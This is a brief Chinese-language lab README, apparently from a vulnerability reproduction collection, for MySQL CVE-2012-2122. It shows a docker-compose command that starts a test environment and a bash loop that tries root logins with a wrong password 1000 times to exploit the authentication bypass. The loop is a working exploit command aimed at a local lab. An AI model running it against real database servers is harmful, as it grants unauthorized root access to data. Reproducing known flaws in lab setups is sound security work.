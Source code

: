 # Mysql CVE-2012-2122

## 环境搭建

执行如下命令启动环境：

```bash
docker-compose up -d

```

## 漏洞验证

在不知道我们环境正确密码的情况下，我们通过CVE-2012-2122漏洞进行大量尝试，可成功登录：

```bash
#宿主机验证
$ for i in `seq 1 1000`; do mysql -uroot -pwrong -h127.0.0.1 -P3306 2>/dev/null; done

#容器内验证
$ for i in `seq 1 1000`; do mysql -uroot -pwrong 2>/dev/null; done
```
